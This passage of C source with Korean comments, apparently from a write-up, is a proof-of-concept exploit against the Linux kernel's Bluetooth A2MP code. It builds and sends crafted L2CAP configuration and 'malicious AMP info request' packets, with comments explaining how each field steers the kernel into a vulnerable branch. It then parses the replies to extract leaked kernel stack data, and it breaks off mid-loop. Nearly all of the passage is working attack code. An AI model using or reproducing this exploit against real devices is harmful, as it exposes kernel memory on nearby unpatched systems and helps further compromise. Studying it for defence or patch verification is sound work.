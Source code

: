 ```c++
  hci_send_acl_data(hci_socket, hci_handle, &packet1, sizeof(packet1));

  /*
  두 번째 통신
   - L2CAP 통신 설정
  */
  printf("[*] Configuring to L2CAP_MODE_BASIC...\n");
  struct {
    l2cap_hdr hdr;
    l2cap_cmd_hdr cmd_hdr;
    l2cap_conf_rsp conf_rsp;
    l2cap_conf_opt conf_opt;
    l2cap_conf_rfc conf_rfc;
  } packet2 = {0};
  packet2.hdr.len = htobs(sizeof(packet2) - L2CAP_HDR_SIZE);
  packet2.hdr.cid = htobs(1);

  packet2.cmd_hdr.code = L2CAP_CONF_RSP;
  packet2.cmd_hdr.ident = 0x41;
  packet2.cmd_hdr.len = htobs(sizeof(packet2) - L2CAP_HDR_SIZE - L2CAP_CMD_HDR_SIZE);

  packet2.conf_rsp.scid = htobs(AMP_MGR_CID);
  packet2.conf_rsp.flags = htobs(0);
  packet2.conf_rsp.result = htobs(L2CAP_CONF_UNACCEPT);

  packet2.conf_opt.type = L2CAP_CONF_RFC;
  packet2.conf_opt.len = sizeof(l2cap_conf_rfc);
  packet2.conf_rfc.mode = L2CAP_MODE_BASIC; // mode를 l2cap 기본으로 지정
  hci_send_acl_data(hci_socket, hci_handle, &packet2, sizeof(packet2));

  /*
  세 번째 통신
   - 악성 AMP 패킷 전송

  - https://code.woboq.org/linux/linux/net/bluetooth/a2mp.c.html#a2mp_chan_recv_cb
  */
  printf("[*] Sending malicious AMP info request...\n");
  struct {
    l2cap_hdr hdr;
    amp_mgr_hdr amp_hdr;
    amp_info_req_parms info_req;
  } packet3 = {0};
  packet3.hdr.len = htobs(sizeof(packet3) - L2CAP_HDR_SIZE);
  packet3.hdr.cid = htobs(AMP_MGR_CID);
  packet3.amp_hdr.code = AMP_INFO_REQ; // a2mp_getinfo_req() 로직으로 유도
  packet3.amp_hdr.ident = 0x41;
  packet3.amp_hdr.len = htobs(sizeof(amp_info_req_parms));
  packet3.info_req.id = 0x42; // !hdev 가 참이 되어 if문 내로 분기하도록 유도
  hci_send_acl_data(hci_socket, hci_handle, &packet3, sizeof(packet3));



  /*
  스택 데이터가 포함된 응답값 획득
  */
  // Read responses
  for (int i = 0; i < 64; i++) {
    char buf[1024] = {0};
    size_t buf_size = read(hci_socket, buf, sizeof(buf));
    if (buf_size > 0 && buf[0] == HCI_ACLDATA_PKT) {
      l2cap_hdr *l2_hdr = (l2cap_hdr *)(buf + 5);
      if (btohs(l2_hdr->cid) == AMP_MGR_CID) {
        uint64_t leak1 = *(uint64_t *)(buf + 13) & ~0xffff;
```